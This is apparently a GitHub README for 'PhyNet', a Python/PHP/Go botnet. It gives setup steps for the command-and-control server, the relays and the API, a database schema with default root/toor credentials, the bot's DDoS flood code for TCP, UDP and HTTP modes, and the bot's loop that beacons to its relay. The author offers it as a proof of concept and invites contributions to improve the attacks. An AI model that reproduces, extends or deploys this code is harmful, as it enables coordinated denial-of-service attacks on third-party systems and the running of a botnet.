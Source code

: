 # PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working well, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/cnc.py):  
```batch
python3 cnc.py <port>
```
or just `make cnc` with the makefile

The cnc password is stored in the sql database, the cnc uses the page [login.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/login.php) for login, like this we doesn't have to keep a raw text file with the password in it, moreover the password is a combo of sha512(sha256(password)) and is inserted with the following sql command: 
```sql
INSERT INTO users (id, username, password) VALUES (1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
```
here the default username is **root** and the default password is **toor**

# RELAY
for setup the [relay](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/relay.py):  
```batch
python3 relay.py <port>
```
or just `make relay` with the makefile

# API
for setup the [api](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2), you need a database:
## API Database:
```sql
DROP TABLE IF EXISTS relays;
CREATE TABLE relays (
    relay_ip TEXT NOT NULL,
    relay_bots INTEGER NOT NULL,
    relay_swap_key TEXT NOT NULL
);

DROP TABLE IF EXISTS users;
CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username TEXT NOT NULL,
    password TEXT NOT NULL
);

INSERT INTO users (id, username, password) VALUES (1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
```
(the password encryption is sha512)   
In php you can use this function for generate a password
```php
function createAccount(string $usr, string $password): bool {
    global $conn; // ensure to have the db conn

    // the final password is sha512(sha256(password))
    $password = hash('sha256', $password);
    $password = hash('sha512', $password);

    // insert the new user in the database
    $stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
    $stmt->bind_param("ss", $usr, $password);
    $result = $stmt->execute();

    return $result;
}
```
Next, you will need to build and start the api server which in v3 is in golang so you doesn't need a php server anymore, just a simple `make api` will run it but before you will need to have golang installed [like This](https://go.dev/doc/install) and you will also need to have a postgresql server as main database (postgresql is an application which is running on a server, so you can buy dedicated postgresql servers on the cloud (AWS, OVH, etc) or you can run your own on your computer or your server [Like This](https://www.postgresql.org/download/) or [With Docker](https://www.docker.com/blog/how-to-use-the-postgres-docker-official-image/))  
To connect your database with your api, you can go on [postgres.go](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v3/internal/databases/postgres.go#L13) and change lines 13, 14 and 15 with your config.
Once your api is running with your database connected you'll have to change your api url (only the ip) in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py#L44)) `API_URL: str = "http://127.0.0.1/v3"` (L44),  
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py#L52)) `API_URL: ClassVar[str] = "http://127.0.0.1:8052/v3"` (L52),  
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py#L41)) `API_URL: ClassVar[str] = "http://127.0.0.1:8052/v3"` (L41)  

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
python3 zomb.py
```
you can just build it (with nuitka) with the command `make build-bot` or run it with `make bot`

## ZOMB DDOS Code: 
here is a preview of the zomb ddos code for each mode, it's really basic but if you want to improve it, don't hesitate to contact me (my discord is in my profile)
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
relay: sock = sock(AF_INET, SOCK_STREAM)
relay.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_IP: str = rget(f"{API_URL}/dispatch?urlkey={URL_KEY}", timeout=5000).text

        relay_address.clear()
        relay_address.append(RELAY_IP)

        relay.connect((RELAY_IP, RELAY_PORT))

        log((RELAY_IP, RELAY_PORT))

        while 1:
            data: str = relay.recv(1024).decode()

            if 'Username' in data:
                relay.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = relay.recv(1024).decode()

            if 'Password' in data:
                relay.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break

    except:
        sleep(240)
```
